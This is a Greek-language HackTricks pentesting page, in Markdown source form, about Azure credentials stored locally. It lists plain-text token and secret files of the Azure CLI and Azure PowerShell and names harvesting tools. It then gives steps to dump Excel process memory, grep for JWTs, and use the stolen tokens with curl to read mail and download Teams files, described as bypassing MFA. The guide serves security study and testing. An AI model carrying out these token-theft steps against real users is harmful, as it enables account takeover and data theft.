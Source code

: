 # Az - Τοπ credentials Cloud

{{#include ../../../banners/hacktricks-training.md}}

## Τοπική Αποθήκευση Token και Σκέψεις Ασφαλείας

### Azure CLI (Διεπαφή Γραμμής Εντολών)

Τα tokens και τα ευαίσθητα δεδομένα αποθηκεύονται τοπικά από το Azure CLI, εγείροντας ανησυχίες ασφαλείας:

1. **Access Tokens**: Αποθηκεύονται σε απλό κείμενο μέσα στο `accessTokens.json` που βρίσκεται στο `C:\Users\<username>\.Azure`.
2. **Πληροφορίες Συνδρομής**: Το `azureProfile.json`, στον ίδιο φάκελο, περιέχει λεπτομέρειες συνδρομής.
3. **Αρχεία Καταγραφής**: Ο φάκελος `ErrorRecords` μέσα στο `.azure` μπορεί να περιέχει αρχεία καταγραφής με εκτεθειμένα credentials, όπως:
- Εκτελούμενες εντολές με ενσωματωμένα credentials.
- URLs που προσπελάστηκαν χρησιμοποιώντας tokens, ενδεχομένως αποκαλύπτοντας ευαίσθητες πληροφορίες.

### Azure PowerShell

Το Azure PowerShell αποθηκεύει επίσης tokens και ευαίσθητα δεδομένα, τα οποία μπορούν να προσπελαστούν τοπικά:

1. **Access Tokens**: Το `TokenCache.dat`, που βρίσκεται στο `C:\Users\<username>\.Azure`, αποθηκεύει access tokens σε απλό κείμενο.
2. **Μυστικά Υπηρεσίας Principal**: Αυτά αποθηκεύονται χωρίς κρυπτογράφηση στο `AzureRmContext.json`.
3. **Δυνατότητα Αποθήκευσης Token**: Οι χρήστες έχουν τη δυνατότητα να διατηρούν tokens χρησιμοποιώντας την εντολή `Save-AzContext`, η οποία θα πρέπει να χρησιμοποιείται προσεκτικά για να αποτραπεί η μη εξουσιοδοτημένη πρόσβαση.

### Αυτόματα Εργαλεία για να τα βρείτε

- [**Winpeas**](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe)
- [**Get-AzurePasswords.ps1**](https://github.com/NetSPI/MicroBurst/blob/master/AzureRM/Get-AzurePasswords.ps1)

## Tokens στη μνήμη

Όπως εξηγείται σε [**αυτό το βίντεο**](https://www.youtube.com/watch?v=OHKZkXC4Duw), κάποιο λογισμικό της Microsoft που συγχρονίζεται με το cloud (Excel, Teams...) μπορεί να **αποθηκεύει access tokens σε καθαρό κείμενο στη μνήμη**. Έτσι, απλά **dumping** τη **μνήμη** της διαδικασίας και **grepping για JWT tokens** μπορεί να σας δώσει πρόσβαση σε αρκετούς πόρους του θύματος στο cloud παρακάμπτοντας το MFA.

Βήματα:

1. Dump τις διαδικασίες excel που συγχρονίζονται με τον χρήστη EntraID με το αγαπημένο σας εργαλείο.
2. Εκτελέστε: `string excel.dmp | grep 'eyJ0'` και βρείτε αρκετά tokens στην έξοδο.
3. Βρείτε τα tokens που σας ενδιαφέρουν περισσότερο και εκτελέστε εργαλεία πάνω τους:
```bash
# Check the identity of the token
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/me | jq

# Check the email (you need a token authorized in login.microsoftonline.com)
curl -s -H "Authorization: Bearer <token>" https://outlook.office.com/api/v2.0/me/messages | jq

# Download a file from Teams
## You need a token that can access graph.microsoft.com
## Then, find the <site_id> inside the memory and call
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/sites/<site_id>/drives | jq

## Then, list one drive
curl -s -H "Authorization: Bearer <token>" 'https://graph.microsoft.com/v1.0/sites/<site_id>/drives/<drive_id>' | jq

## Finally, download a file from that drive:
curl -o <filename_output> -L -H "Authorization: Bearer <token>" '<@microsoft.graph.downloadUrl>'
```
**Σημειώστε ότι αυτοί οι τύποι διακριτικών πρόσβασης μπορούν επίσης να βρεθούν μέσα σε άλλες διεργασίες.**

{{#include ../../../banners/hacktricks-training.md}}
